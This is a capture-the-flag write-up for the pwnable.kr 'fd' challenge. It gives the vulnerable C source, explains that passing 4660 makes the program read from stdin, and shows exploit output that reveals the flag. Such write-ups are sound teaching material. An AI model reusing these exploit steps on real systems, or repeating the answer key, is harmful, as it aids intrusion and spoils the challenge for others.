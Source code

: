 # fd

## Description

```txt
Mommy! what is a file descriptor in Linux?

* try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link:
https://youtu.be/971eZhMHQQw

ssh fd@pwnable.kr -p2222 (pw:guest)
```

## Analysis

```shell
$ ssh fd@pwnable.kr -p2222
fd@pwnable.kr's password:
...

Last login: Sun Jun  6 02:43:55 2021 from 111.252.186.121
fd@pwnable:~$ ls -l
total 16
-r-sr-x--- 1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r-- 1 root   root  418 Jun 11  2014 fd.c
-r--r----- 1 fd_pwn root   50 Jun 11  2014 flag
fd@pwnable:~$
```

Without the permission to the flag, let’s take a look at the source:

```C
# fd.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

We know that `fd` is an abbreviation for file descriptor, and there are 3 file descriptors: `stdin`, `stdout`, `stderr`.

Give the program `4660` to get `fd = 4660 - 4660 = 0`,  which represents `stdin`.

Instead of printing `learn about Linux file IO`, it’s reading our input –> `len = read(fd, buf, 32);`.

Make `buf = “LETMEWIN”` to execute the first if condition and we can get the flag: `mommy! I think I know what a file descriptor is!!`. 

## Solution

Write-up: [exploit.py](exploit.py).

```shell
$ python3 pwnable.kr/fd/exploit.py
[+] Connecting to pwnable.kr on port 2222: Done
[*] fd@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process './fd' on pwnable.kr: pid 333931
[+] Receiving all data: Done (62B)
[*] Stopped remote process 'fd' on pwnable.kr (pid 333931)
[+] good job :)
    mommy! I think I know what a file descriptor is!!
$
```

## Point

File descriptors simply are indicators or handles used to access a file or i/o (input/output) resource. File descriptors are represented in `C` as integers and there are 3 types of file descriptors:

- `stdin`, its integer value is `0`
- `stdout`, its integer value is `1`
- `stderr`, its integer value is `2`
